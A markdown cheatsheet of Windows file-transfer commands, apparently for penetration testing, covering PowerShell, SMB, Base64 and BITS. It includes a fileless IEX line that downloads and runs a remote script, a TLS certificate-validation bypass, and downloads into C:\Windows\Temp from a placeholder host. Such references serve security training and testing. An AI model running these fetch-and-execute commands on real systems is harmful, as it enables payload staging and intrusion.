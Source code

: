 # File Transfers - Cheatsheet

## File Transfers Cheatsheet

This document contains essential file transfer commands and techniques for both Windows and Linux systems.

### Windows File Transfers

#### PowerShell Downloads

```powershell
# Basic download
(New-Object Net.WebClient).DownloadFile('http://10.10.10.10/file.exe', 'C:\Windows\Temp\file.exe')

# Fileless execution
IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/script.ps1')

# HTTPS with certificate bypass
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
(New-Object Net.WebClient).DownloadFile('https://10.10.10.10/file.exe', 'C:\Windows\Temp\file.exe')

# Using Invoke-WebRequest
Invoke-WebRequest -Uri "http://10.10.10.10/file.exe" -OutFile "C:\Windows\Temp\file.exe" -UseBasicParsing
```

#### SMB Transfers

```cmd
# Copy from SMB share
copy \\10.10.10.10\share\file.exe C:\Windows\Temp\file.exe

# Mount and copy with credentials
net use Z: \\10.10.10.10\share /user:username password
copy Z:\file.exe C:\Windows\Temp\file.exe
```

#### Base64 Transfers

```powershell
# Encode file to Base64
[Convert]::ToBase64String((Get-Content -Path "C:\Windows\Temp\file.exe" -Encoding Byte))

# Decode Base64 to file
[IO.File]::WriteAllBytes("C:\Windows\Temp\file.exe", [Convert]::FromBase64String("BASE64_STRING"))
```

#### BITS Transfers

```powershell
# Download using BITS
Start-BitsTransfer -Source "http://10.10.10.10/file.exe" -Destination "C:\Windows\Temp\file.exe"

# Using bitsadmin
bitsadmin /transfer myJob /download /priority high http://10.10.10.10/file.exe C:\Windows\Temp\file.exe
```
